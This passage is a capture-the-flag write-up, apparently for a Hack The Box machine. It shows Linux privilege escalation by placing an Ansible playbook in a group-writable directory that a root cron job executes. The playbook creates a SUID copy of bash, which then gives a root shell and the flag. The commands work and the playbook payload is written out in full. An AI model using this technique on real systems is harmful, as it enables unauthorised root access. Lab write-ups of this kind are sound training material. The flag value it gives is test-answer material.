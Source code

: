 The directory `/opt/infra-setup` is writable by usergroup `frontiers` and we can see that user `nagato` is a member of the `frontiers` group.

```bash
nagato@clouded:/opt$ id
uid=1000(nagato) gid=1000(nagato) groups=1000(nagato),1001(frontiers)

nagato@clouded:/opt$ ls -l /opt/ | grep infra-setup
drwxrwxr-x 2 root frontiers 4096 Dec  2 08:44 infra-setup
```

We can create the following ansible playbook yaml file to privesc to root by copying the `bash` executable to the `/tmp` directory and assigning it the SUID bit.

`nano /opt/infra-setup/privesc.yml`

```yaml
- hosts: localhost
  tasks:
  - name: 'Hacked'
    shell: cp /bin/bash /tmp/dot; chmod 4755 /tmp/dot
```

Wait for about 2 min for the cron to kick in and then check the `/tmp` directory.

```bash
nagato@clouded:/opt$ ls -l /tmp
total 4208
-rwsr-xr-x 1 root   root   1183448 Dec  2 08:48 dot

[** SNIP **]
```

Run the exectubale with root privileges and obtain the root flag at `/root/root.txt`.

```bash
nagato@clouded:/opt$ /tmp/dot -p

dot-5.0# id
uid=1000(nagato) gid=1000(nagato) euid=0(root) groups=1000(nagato),1001(frontiers)
dot-5.0# cat /root/root.txt
HTB{H@ZY_71ME5_AH3AD}
```

